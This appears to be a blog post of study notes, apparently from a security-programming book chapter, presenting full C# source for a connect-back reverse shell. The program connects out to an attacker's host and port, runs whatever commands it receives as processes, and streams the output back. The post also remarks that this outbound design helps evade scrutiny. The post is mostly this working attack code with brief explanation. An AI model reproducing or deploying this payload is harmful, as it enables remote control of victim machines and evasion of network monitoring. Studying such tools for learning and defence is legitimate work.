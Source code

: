 ```yaml
---
title: Writing a program which allows an attacker to start a listener and listen for a connection back from a victim host.
date: 2021-07-09 10:45:47 +07:00
categories: greyhatcch4
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Reverse Shell.
---
```



## We write a program which allows an attacker to start a listener and listen for a connection back from a victim host.

- We use the following classes:

> TCPClient - to create a new TCPClient object.

> Stream - to create a stream to read/wrtie to.

> StreamReader - read commands from incoming stream.

> Process and ProcessStartInfo(add/control certain options in Process()) - run commands from an attacker using a new process.

- We use the Split method to split commands into their respective filenames and arguments.

- Helps in evasion, egress traffic from a victim host is less scrutinized.

## Code:

```csharp
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Net;
using System.Net.Sockets;
using System.Diagnostics;

namespace Connect_Back_Payload
{
    public class MainClas
    {
        public static void Main(string[] args)
        {
            Console.WriteLine("[+] Welcome to your connect back shell\n- Enter a command on your attacker terminal to continue\n");
            // Convert only port from str to int
            using (TcpClient client = new TcpClient(args[0], int.Parse(args[1])))
            {
                //Read/Write to stream
                using (Stream stream = client.GetStream())
                {
                    //Read cmds from attacker
                    using (StreamReader rdr = new StreamReader(stream))
                    {
                        //Read from stream as long as attacker sends cmds
                        while (true)
                        {
                            string cmd = rdr.ReadLine();
                            // If empty
                            if (string.IsNullOrEmpty(cmd))
                            {
                                rdr.Close();
                                stream.Close();
                                client.Close();
                                return;
                            }
                            // Contains only whitespace
                            if (string.IsNullOrWhiteSpace(cmd))
                                continue;

                            //Split cmd into cmd and args
                            string[] split = cmd.Trim().Split(' ');
                            string filename = split.First();
                            string arg = string.Join(" ", split.Skip(1));

                            //Run cmd and return output
                            try
                            {
                                Process prc = new Process();
                                prc.StartInfo = new ProcessStartInfo();
                                prc.StartInfo.FileName = filename;
                                prc.StartInfo.Arguments = arg;
                                //Execute cmds in same shell context
                                prc.StartInfo.UseShellExecute = false;
                                prc.StartInfo.RedirectStandardOutput = true;
                                prc.Start();
                                //Copy stdout to stream and send to attacker
                                prc.StandardOutput.BaseStream.CopyTo(stream);
                                prc.WaitForExit();
                            }
                            catch
                            {
                                string error = "[+] Error running command: " + cmd + "\n";
                                byte[] errorBytes = Encoding.ASCII.GetBytes(error);
                                stream.Write(errorBytes, 0, errorBytes.Length);
                            }
                                
                            
                        }
                    }


                }

            }
        }
    }
}

```

## Output:

![Image](connect_back.png)
